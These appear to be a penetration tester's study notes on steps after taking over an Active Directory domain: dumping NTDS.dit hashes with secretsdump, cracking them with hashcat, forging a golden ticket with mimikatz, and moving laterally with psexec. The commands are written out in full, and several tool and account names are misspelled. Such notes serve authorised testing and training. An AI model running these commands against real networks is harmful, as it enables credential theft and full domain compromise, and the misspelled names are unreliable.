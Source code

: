 
Now we own the domain, but what we can do?

So we have to provide as musch value to the client as possible:
- we have to put our blinders on and do it again
- we have to dump the NTDS.dit and crack the passwords
- we have to enumerate shares for sensitive info


To avoid access lost we have to create a domain admin account but hen we have to delete it.
- we can also create a Golden Ticket

we have to test for the detection of this account, if it is not detected then the client has a severe problem. It is easy to detect an account.

ALWAYS CLEAN THE ENVIRONMENT FROM STUFF WE CREATED!



# Dumping NTDS.dit file

This file is a database used to store Active Directory data, including:
- user info
- group info
- security descriptors
- password hashes


To dump it we can simply use `secretdumps` against the Domain Controller to perform this attack.

To do it we can use this command:
```bash
secretsdump.py DOMAIN/username:'PASSWORD'@DOMAIN_CONTROLLER_IP -just-dc-ntlm
```


This will give us the hashes NTLM passwords for the users.

What we want to do is to crack only the second part of the hashes:
- ![[Pasted image 20241220164805.png]]


We can copy all and use excel to split them on `:` in `DATA -> Text to columns -> delimited -> other -> :`
- ![[Pasted image 20241220165145.png]]


So we can crack all the second parts of the hashes (Column D):
```bash
hashcat -m 1000 ntds.txt rockyou.txt

hashcat -m 1000 ntds.txt rockyou.txt --show
```



Now what we can do is to organize the passwords and have the access to the users.


# Golden Ticket attacks
A golden ticket is a ticket that gives us the complete access to every machine in the Active Directory.

This can be retrieved if we are able to compromise the `krbtgt` account on the domain.


We can use minikatz to get all the info we need to perform this attack.

To do it we need:
- the KRBTGT NTLM hash (easy to get)
- domain SID 
Once we have them we can create a golden ticket we can use anywhere to access to any machine.



The KBRTGT account is used to grant the tickets generation. 


So first of all we run `minkatz` on the victim machine:
```bash
minikatz.exe

privilege::debug

lsadump::lsa /inject /name:kbrtgt

```


At this point we need to copy the SID of the domain: and the NTLM hash of kbrtgt account
- ![[Pasted image 20241220170557.png]]
- ![[Pasted image 20241220170632.png]]

At this point we can run the golden ticket attack on minikatz:
```bash
kerberos::golden /User:fakenusername /domain:DOMAIN /sid:SID_FIND_BEFORE /krbtgt:KRBTGT_HASH /id:OUR_RID /ptt
```
- ![[Pasted image 20241220171117.png]]
- `/ptt` stands for pass the ticket


Now we must succeed:
- ![[Pasted image 20241220171202.png]]


So now we run the cmd:
```bash
misc:cmd
```
- it will open a cmd with the golden ticket, so we can access everywhere
- ![[Pasted image 20241220171313.png]]


Now we can run psexec to get a machine:
```bash
psexec.exe \\PC_VICTIM cmd.exe
```
